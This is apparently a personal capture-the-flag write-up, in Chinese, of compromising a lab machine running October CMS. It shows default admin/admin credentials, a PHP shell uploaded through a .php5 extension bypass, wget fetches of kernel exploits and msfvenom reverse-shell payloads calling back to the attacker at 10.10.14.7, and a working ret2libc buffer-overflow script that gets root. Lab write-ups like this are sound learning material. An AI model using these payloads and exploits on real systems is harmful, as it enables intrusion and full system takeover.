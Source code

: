 ```yaml
---
title: october（弱密码+文件上传）
categories:
- training
tags:
- training
- cms
- file upload
- linux os
---
```

10.10.14.7

```
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 79:b1:35:b6:d1:25:12:a3:0c:b5:2e:36:9c:33:26:28 (DSA)
|   2048 16:08:68:51:d1:7b:07:5a:34:66:0d:4c:d0:25:56:f5 (RSA)
|   256 e3:97:a7:92:23:72:bf:1d:09:88:85:b6:6c:17:4e:85 (ECDSA)
|_  256 89:85:90:98:20:bf:03:5d:35:7f:4a:a9:e1:1b:65:31 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Potentially risky methods: PUT PATCH DELETE
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: October CMS - Vanilla
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
第一步，确定版本漏洞和exp
searchsploit Vanilla，

searchsploit october，没有直接可用exp

第二步，得知有很多exp，于是检查目标的详细版本
```
nikto -h 10.10.10.16

Server: Apache/2.4.7 (Ubuntu)
+ Retrieved x-powered-by header: PHP/5.5.9-1ubuntu4.21
```
手动翻网页，没有找到版本信息，于是dirbuster fuzz一下目录。

结果是目录很干净，除了论坛、用户、博客三个目录，有用信息不多。

http://10.10.10.16/forum

第三步，分析exp
searchsploit -m exploits/php/webapps/25720.txt
leafpad /root/Desktop/16/25720.txt

---
找到了后台：`http://10.10.10.16/backend/backend/auth/signin`
![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-23/6.PNG)

admin/admin，登陆成功

![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-23/5.PNG)
尝试文件上传，txt可以上传，php不可以，PHP不可以。

![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-23/7.PNG)
但是php5可以，说明是黑名单的限制方式。

## 获得一个shell
![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-23/8.PNG)

#### info enum:
```
os: Ubuntu 14.04 (Linux 4.4.0-78-generic)
whoami: www-data
exist user: syslog:x:101:104::/home/syslog:/bin/false
      		harry:x:1000:1000:Harry Varthakouris,,,:/home/harry:/bin/bash
```
## trying1：检查web config文件，查找口令
```
grep -R pass .
OctoberCMSPassword!!

python -c 'import pty; pty.spawn("/bin/bash")'
```
获取bash shell，尝试用口令登陆。登陆farry用户失败。

## trying2: 尝试数据库登陆
发现数据库以mysql用户运行。
```
ps -ef | grep mysql
mysql     1197     1  0 Feb18 ?        00:02:16 /usr/sbin/mysqld

netstat -an
unix  2      [ ACC ]     STREAM     LISTENING     10089    /var/run/mysqld/mysqld.sock
```
## trying3: 上传sh脚本
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-23/1.PNG)
有gcc，于是可以尝试内核漏洞
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-23/2.PNG)

```
wget http://10.10.14.7/dirty.c
wget http://10.10.14.7/dirtyc0w.c

wget http://10.10.14.7/chocobo_root 
执行结果：i have no offsets for this kernel version..
```
执行了三个exp，都失败了

## trying4: 上传msf反弹payload

msfconsole -r job.rc 执行监听
```
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 10.10.14.7
set LPORT 7766
run
```
将载荷发送到目标机，并且运行。
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="10.10.14.7" LPORT=7766 -f elf -o 123`

![11](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-23/11.PNG)

```
[+] 10.10.10.16 - exploit/linux/local/apport_abrt_chroot_priv_esc: The target is vulnerable.
[+] 10.10.10.16 - exploit/linux/local/netfilter_priv_esc_ipv4: The target appears to be vulnerable.  编译时缺少模块libc6-dev-i386，失败
[+] 10.10.10.16 - exploit/linux/local/pkexec: The target service is running, but could not be validated. 
[*] Post module execution completed

set SESSION 1
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 10.10.14.7
set LPORT 8899
show options
run 失败
```
## writeup: suid程序以及python exploit编写
之前用脚本检查过suid权限，但是/usr/local/bin/ovrflw，并不是常见的suid 提权程序，于是被我忽略了...
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-23/3.PNG)

ovrflw是一个二进制程序，有缓冲区溢出漏洞，可惜我还不会写利用程序。
`cd /usr/local/bin;./ovrflw`

![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-23/4.PNG)

overflow.py
```
import struct, subprocess
libcBase = 0xb75eb000
systemOffset = 0x00040310
binShOffset = 0x00162bac
libcAddress = struct.pack("<I", libcBase+systemOffset)
exitAddress = struct.pack("<I", 0xd34db33f)
binShAddress = struct.pack("<I", libcBase+binShOffset)
payload = "\x90"*112
payload += libcAddress
payload += exitAddress
payload += binShAddress
i = 0
while True:
	i += 1
	if i%10 == 0:
		print "Attempts: " + str(i)
	subprocess.call(["/usr/local/bin/ovrflw", payload])
```
![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-23/9.PNG)

## 总结
编写python脚本，利用段错误，通过缓冲区溢出得到root权限，需要很多基础，不是一时半会儿能学会的。继续加油吧



